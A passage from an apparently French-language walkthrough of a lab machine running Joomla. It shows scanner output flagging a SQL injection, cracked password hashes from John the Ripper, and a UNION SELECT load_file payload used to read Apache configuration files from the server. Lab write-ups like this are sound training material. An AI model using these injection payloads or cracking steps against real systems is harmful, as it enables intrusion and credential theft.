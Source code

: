 Le script *Metasploit* crashe à ce moment j'ai au moins il a détecté quelque chose. Au passage *Wapiti* trouve aussi la vulnérabilité mais via une autre variable :

```plain
Injection MySQL dans http://192.168.1.91:666/index.php via une injection dans le paramètre letter
  Evil url: http://192.168.1.91:666/index.php?option=com_abc&view=abc&letter=%BF%27%22%28&Itemid=3
```

Sur *exploit-db* on trouve [un exploit qui permet de récolter les hashs des utilisateurs Joomla](http://www.exploit-db.com/exploits/12429/) et [sur la mailing-list de JtR](http://comments.gmane.org/gmane.comp.security.openwall.john.user/4664), la manipulation pour casser ces hashs.  

On obtient rapidement un premier hash et plus tard un second mais le dernier semble inaccessible :  

```plain
Loaded 3 password hashes with 3 different salts (dynamic_1: md5($p.$s) (joomla) [128/128 AVX intrinsics 10x4x3])
matrix           (JSmith)
victim           (BTallor)
```

Cela dis, même avec ces comptes on ne trouve pas grand chose d'intéressant dans Joomla qui puisse nous aider à élever nos privilèges ou obtenir un shell.  

On customize un peu l'injection SQL indiquée dans l'exploit en changeant le paramètre de la variable *sectionid*. De cette façon on peut lire le contenu de fichiers sur le système :  

```plain
-null+union+select+1,load_file(%27/etc/apache2/apache2.conf%27)+from+jos_users--
```

La config est basée sur le dossier *sites-enabled* comme sous *openSUSE*. On tente le fichier *default* (*sites-available/default*) :  

```plain
<VirtualHost *:80>
	ServerAdmin webmaster@localhost

	DocumentRoot /var/www/welcome
	<Directory />
		Options FollowSymLinks
		AllowOverride None
	</Directory>
	<Directory /var/www/>
		Options Indexes FollowSymLinks MultiViews
		AllowOverride None
		Order allow,deny
		allow from all
	</Directory>

        (...snip...)
</VirtualHost>

<VirtualHost *:666>
	ServerAdmin webmaster@localhost

	DocumentRoot /var/www
	<Directory />
		Options FollowSymLinks
		AllowOverride None
	</Directory>
	<Directory /var/www/>
		Options Indexes FollowSymLinks MultiViews
		AllowOverride None
		Order allow,deny
		allow from all
	</Directory>

        (...snip...)
```